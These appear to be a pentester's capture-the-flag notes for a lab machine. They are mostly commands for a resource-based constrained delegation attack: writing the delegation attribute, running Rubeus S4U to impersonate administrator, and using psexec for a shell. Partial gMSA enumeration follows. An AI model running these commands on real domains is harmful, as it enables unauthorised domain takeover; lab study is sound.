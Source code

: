 ```
```
- creating ACL step 2: creates new byte array $SDBytes with length equal to binary length of security descriptor
```
$SD.GetBinaryForm($SDBytes, 0)
```
- creating ACL step 3: converts $SD into binary form and stores in the byte array
```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
- creating ACL step 4: applies security descriptor to the `msds-allowedtoactonbehalfofotheridentity` attribute of the target computer object
	- check it worked:
		- `$RawBytes = Get-DomainComputer 0xdfFakeComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
		- `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0`
		- `$Descriptor.DiscretionaryAcl`
			- will display `AccessAllowed` under AceType if worked
```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
```
- get hash of fake computer account labeled rc4_mac and put into next command:
```
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- last base64 ticket listed should be for administrator
	- copy and save it to kali without spaces as `ticket.kirbi.b64`
on kali:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```
- base64 decode and save as ticket.kirbi
```
ticketConverter.py ticket.kirbi ticket.ccache
```
- save ticket in cacheable format
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
- saves ticket in cash and get shell as administrator

---

***ReadGMSAPassword privilege in Bloodhound***
can confirm account is a service account with GMSA enabled
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```
- Will list service accounts and ObjectClass will say msDS-GroupmanageServiceAccount if GMSA is enabled
get more insight into the group that manages this service account, import PowerView.ps1, then run:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```
- will show service account/user `svc_apache` and the groups that have this permission under `PrincipalsAllowedToDelegateToAccount` with CN=
	- check who's a member of that group with 
```
Get-ADGroupMember 'Web Admins'
```
extract hash from user listed (need shell as another user and upload tool):
```
```